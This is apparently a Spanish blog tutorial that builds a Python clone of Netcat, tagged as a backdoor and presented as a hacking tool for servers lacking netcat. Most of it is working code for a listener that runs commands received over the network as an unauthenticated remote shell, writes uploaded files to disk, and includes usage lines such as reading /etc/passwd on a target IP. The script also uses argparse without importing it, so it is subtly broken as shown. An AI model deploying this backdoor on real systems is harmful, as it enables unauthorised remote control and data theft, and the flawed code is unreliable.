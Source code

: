 ```yaml
---
layout: single
title: "Como crear tu propia herramienta de hacking con Netcat en Python"
excerpt: "¡Este es nuestro ejemplo de Netcat en Python! En este tutorial, aprenderás cómo crear una herramienta de red de bajo nivel utilizando el lenguaje de programación Python. A través de la creación de una versión de Netcat, aprenderás sobre la creación de conexiones de red, el manejo de flujos de datos y la transmisión de información en tiempo real. Este tutorial es adecuado tanto para principiantes como para usuarios con experiencia en Python y es una excelente forma de ampliar tus habilidades en programación de redes. ¡Prepárate para sumergirte en el mundo de la programación de redes con Python! "
date: 2022-08-03 
classes: wide
header:
 teaser: /assets/images/netcat/nc.png
 teaser_home_page: true
categories:
  - programacion
  - ciberseguridad
tags:
  - seguridad
  - herramienta
  - networks
  - python
  - backdoor
---
```


En ocasiones vemos servidores que no tienen instalado NetCat y/o tampoco permite la instalacion de dicha herramienta, pero si que contamos con python, por lo que utilizaremos este lenguaje para montarnos una herramienta similiar al NetCat.

Vamos a ponerle de nombre al archivo **netcat.py** y empezamos importando las librerias necesarias para trabajar nuestra herramienta

```python
import socket
import shlex
import subprocess
import sys
import textwrap
import threading
```

Cabe resaltar que la libreria **subprocess** nos brinda la creacion de procesos para interactuar con los programas cliente. Creamos una funcion llamada **execute** y le pasamos como parametro ```cmd``` .  Empezamos con nuestra funcion y creamos una variable llamada cmd donde le pasamos el parametro cmd seguido del metodo _strip()_ , este metodo lo que nos hace es eliminar cualquier espacio delante o detras de la palabra. 

Despues de la sentencia if nos creamos una variable llamada **output** y haciendo uso esta misma libreria, subprocess, usamos el metodo _check_output_ que facilmente nos ejecuta un comando en el sistema operativo local y luego devuelve su resultado 

```python
def execute(cmd):
    cmd = cmd.strip()
    if not cmd:
        return
    output = subprocess.check_output(shlex.split(cmd), stderr=subprocess.STDOUT)
    return output.decode()
```


```python
class NetCat:
    def __init__(self, args, buffer=None):
        self.args = args
        self.buffer = buffer
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def run(self):
        if self.args.listen:
            self.listen()
        else:
            self.send()

    def send(self):
        self.socket.connect((self.args.target, self.args.port))
        if self.buffer:
            self.socket.send(self.buffer)
        try:
            while True:
                recv_len = 1
                response = ''
                while recv_len:
                    data = self.socket.recv(4096)
                    recv_len = len(data)
                    response += data.decode()
                    if recv_len < 4096:
                        break
                if response:
                    print(response)
                    buffer = input('> ')
                    buffer += '\n'
                    self.socket.send(buffer.encode())
        except KeyboardInterrupt:
            print('User terminated.')
            self.socket.close()
            sys.exit()

    def listen(self):
        print('listening')
        self.socket.bind((self.args.target, self.args.port))
        self.socket.listen(5)
        while True:
            client_socket, _ = self.socket.accept()
            client_thread = threading.Thread(target=self.handle, args=(client_socket,))
            client_thread.start()

    def handle(self, client_socket):
        if self.args.execute:
            output = execute(self.args.execute)
            client_socket.send(output.encode())
        elif self.args.upload:
            file_buffer = b''
            while True:
                data = client_socket.recv(4096)
                if data:
                    file_buffer += data
                    print(len(file_buffer))
                else:
                    break
            with open(self.args.upload, 'wb') as f:
                f.write(file_buffer)
            message = f'Saved file {self.args.upload}'
            client_socket.send(message.encode())
        elif self.args.command:
            cmd_buffer = b''
            while True:
                try:
                    client_socket.send(b' #> ')
                    while '\n' not in cmd_buffer.decode():
                        cmd_buffer += client_socket.recv(64)
                    response = execute(cmd_buffer.decode())
                    if response:
                        client_socket.send(response.encode())
                    cmd_buffer = b''
                except Exception as e:
                    print(f'server killed {e}')
                    self.socket.close()
                    sys.exit()

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
        description='BHP Net Tool',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=textwrap.dedent('''Example:
          netcat.py -t 192.168.1.108 -p 5555 -l -c # command shell
          netcat.py -t 192.168.1.108 -p 5555 -l -u=mytest.whatisup # upload to file
          netcat.py -t 192.168.1.108 -p 5555 -l -e=\"cat /etc/passwd\" # execute command
          echo 'ABCDEFGHI' | ./netcat.py -t 192.168.1.108 -p 135 # echo local text to server port 135
          netcat.py -t 192.168.1.108 -p 5555 # connect to server
          '''))
          
    parser.add_argument('-c', '--command', action='store_true', help='initialize command shell')
    parser.add_argument('-e', '--execute', help='execute specified command')
    parser.add_argument('-l', '--listen', action='store_true', help='listen')
    parser.add_argument('-p', '--port', type=int, default=5555, help='specified port')
    parser.add_argument('-t', '--target', default='192.168.1.203', help='specified IP')
    parser.add_argument('-u', '--upload', help='upload file')
    args = parser.parse_args()
    if args.listen:
        buffer = ''
    else:
        buffer = sys.stdin.read()
    nc = NetCat(args, buffer.encode('utf-8'))
    nc.run()
```